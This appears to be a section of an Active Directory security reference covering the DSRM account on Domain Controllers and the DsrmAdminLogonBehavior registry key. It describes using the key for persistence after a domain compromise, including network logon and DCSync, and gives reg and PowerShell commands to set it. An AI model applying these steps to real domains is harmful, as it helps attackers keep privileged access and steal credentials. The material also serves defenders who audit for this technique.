 ### Directory Services Restore Mode account

The `Directory Services Restore Mode (DSRM)` account correspond to the local
built-in `Administrator` (username language dependent name, `SID`
`S-1-5-21-<DC_SPECIFIC>-500`) of a Domain Controller. The `DRSM` account
password is specific to each Domain Controller and is setup during the Domain
Controller promulgation. The `DRSM` accounts are local to each Domain
Controller and have no link with the built-in `Administrator` (`SID`
`S-1-5-21-<DOMAIN>-500`) of the domain.

Note that since `Windows Server 2008` (`KB961320`), the `DSRM` account password
can be one-time synchronized with a domain account (further synchronization are
however not automated and must be done manually).

The usage of the `DSRM` account is controlled by the `DsrmAdminLogonBehavior`
registry key:

| Value | Description |
|-------|-------------|
| `0x0` <br><br> `Undefined` | The `DSRM` account can only be used if the Domain Controller is booted in `DSRM`. <br><br> `bcdedit /set safeboot dsrepair` <br> `shutdown /r /f /t 5` |
| `0x1` | The `DSRM` account can login on the Domain Controller if the `Active Directory Domain Service (AD DS)` of the Domain Controller are (locally) stopped. |
| `0x2` | The `DSRM` account can login with out any restriction. |

By default, the `DsrmAdminLogonBehavior` key is undefined (and thus the `DSRM`
account can only be used to connect to the Domain Controller if it has been
restarted in `DSRM`).

To maintain persistence after a compromise of an Active Directory domain, the
local built-in `Administrator` password of a Domain Controller can be retrieved
(or set) and the `DsrmAdminLogonBehavior` of the Domain Controller set to
`0x2`. The `DSRM` account will be usable over the network even if the Domain
Controller is not started in `DSRM` and persistence maintained until its
password is renewed. In this scenario, the `DSRM` account can notably be used
to remotely connect to the Domain Controller or conduct replication operations
(`DCSync` attack).

The following commands can be used to retrieve and set the value of the
`DsrmAdminLogonBehavior` registry key (on a Domain Controller):

```
# Retrieves the current value of the DsrmAdminLogonBehavior registry key.
reg query "HKLM\System\CurrentControlSet\Control\Lsa\" /v "DsrmAdminLogonBehavior"
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -Name "DsrmAdminLogonBehavior"

# Creates and sets the value of the DsrmAdminLogonBehavior registry key to the specified value.
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t "REG_DWORD" /d "<2 | VALUE>"
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -PropertyType DWORD -Value <2 | VALUE>

# Overrides the value of the DsrmAdminLogonBehavior registry key to the specified value (if the key already exists).
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /f /v "DsrmAdminLogonBehavior" /t "REG_DWORD" /d "<2 | VALUE>"
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value "<2 | VALUE>"
```
